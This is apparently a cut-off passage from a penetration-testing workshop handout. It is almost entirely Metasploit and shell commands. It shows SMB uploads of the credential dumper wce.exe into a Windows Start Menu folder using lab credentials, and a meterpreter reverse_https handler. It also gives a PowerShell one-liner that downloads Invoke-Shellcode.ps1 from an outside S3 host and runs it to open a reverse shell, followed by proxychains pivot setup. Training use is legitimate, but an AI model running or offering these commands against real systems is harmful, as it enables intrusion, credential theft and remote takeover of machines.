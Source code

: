 set RPATH "C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\wce.exe"
 
set RHOST 192.168.153.163                      
 
run
 
 
 
-- Option 4:
use auxiliary/admin/smb/upload_file
 
set SMBUser Workshop
 
set SMBPass password
 
set LPATH /home/strategicsec/binaries/wce.exe
 
set RPATH "C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\wce.exe"
 
set RHOST 192.168.153.163                      
 
run
 
 
-- Option 5:
use exploit/multi/handler
set ExitOnSession false
set payload windows/meterpreter/reverse_https
set LHOST 192.168.153.164
set LPORT 4443
set EXITFUNC thread
exploit -j
 
 
 
sessions -i 1
shell
powershell -command "IEX (New-Object Net.WebClient).DownloadString('https://s3.amazonaws.com/StrategicSec-Files/Powersploit/Invoke-Shellcode.ps1'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.153.164 -Lport 4443 -Force"
 
 
####################################
# Socks Tunneling with Proxychains #
####################################
--- Open a duplicate putty session to your Ubuntu host

sudo apt-get install -y proxychains
	strategicsec

sudo vi /etc/proxychains.conf                           <--- Make sure that last line of the file is: socks4  127.0.0.1 1080
 
        Comment out the proxy_dns, change the 9050 (tor port) to the metasploit socks proxy port (1080) and save it.
        socks4  127.0.0.1 1080
 
***************************Set up a Socks Proxy through your Pivot *************************
 
 